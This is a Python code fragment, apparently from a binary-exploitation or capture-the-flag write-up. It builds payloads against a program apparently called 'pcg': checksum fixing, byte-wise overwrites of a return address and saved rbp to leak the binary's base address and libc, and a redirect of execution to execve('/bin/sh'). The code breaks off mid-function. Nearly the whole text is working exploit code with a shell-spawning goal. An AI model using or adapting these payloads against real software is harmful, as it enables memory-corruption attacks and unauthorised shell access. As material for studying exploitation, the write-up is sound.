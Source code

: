 ```Python


def calc_checksum(image: bytearray):
    checksum = PCG_MAGIC
    counter = 0
    for byte in image[8:]:
        current_byte_to_xor_with = byte << (8 * (counter % 4))
        checksum = checksum ^ current_byte_to_xor_with
        counter += 1
    return checksum


def get_data_to_leak_pcg_bin_address():
    data = bytearray()

    # 0x18AD - 0x1892 => only LSB needs to be modified.
    # 0xAD - 0x92 = 0x1B
    # Overwriting the return address.
    for _ in range(0x1B):
        data += bytes([SHOW_STATISTICS_RET_ADDR_OFFSET])

    # Overwriting the rbp-8 of sub_18A1
    # 0x4018 - 0x40a0 = 0xFF78
    for _ in range(0xFF78):
        data += bytes([RBP_MINUS_8_OFFSET])
    return data


def get_data_to_leak_libc():
    data = bytearray()

    # 0x18AD - 0x1892 => only LSB needs to be modified.
    # 0xAD - 0x92 = 0x1B
    # Overwriting the return address.
    for _ in range(0x1B):
        data += bytes([SHOW_STATISTICS_RET_ADDR_OFFSET])

    # Overwriting the rbp-8 of sub_18A1
    # 0x4028 - 0x40a0 = 0xFF88
    for _ in range(0xFF88):
        data += bytes([RBP_MINUS_8_OFFSET])
    return data


def get_data_to_change_ret_addr_to_execve(show_statistics_ret_addr, execve_bin_sh_addr):
    data = bytearray()

    lowset_word_diff = (((execve_bin_sh_addr & 0xffff) - (show_statistics_ret_addr & 0xffff))) & 0xffff
    second_lowest_word_diff = (((execve_bin_sh_addr & 0xffff0000) >> (8 * 2)) - (
            (show_statistics_ret_addr & 0xffff0000) >> (8 * 2))) & 0xffff
    third_lowest_word_diff = (((execve_bin_sh_addr & 0xffff00000000) >> (8 * 4)) - (
            (show_statistics_ret_addr & 0xffff00000000) >> (8 * 4))) & 0xffff

    # Overwriting the return address.
    for _ in range(lowset_word_diff):
        data += bytes([SHOW_STATISTICS_RET_ADDR_OFFSET])

    # Second address word
    for _ in range(second_lowest_word_diff):
        data += bytes([SHOW_STATISTICS_RET_ADDR_OFFSET + 1])

    # Third address word
```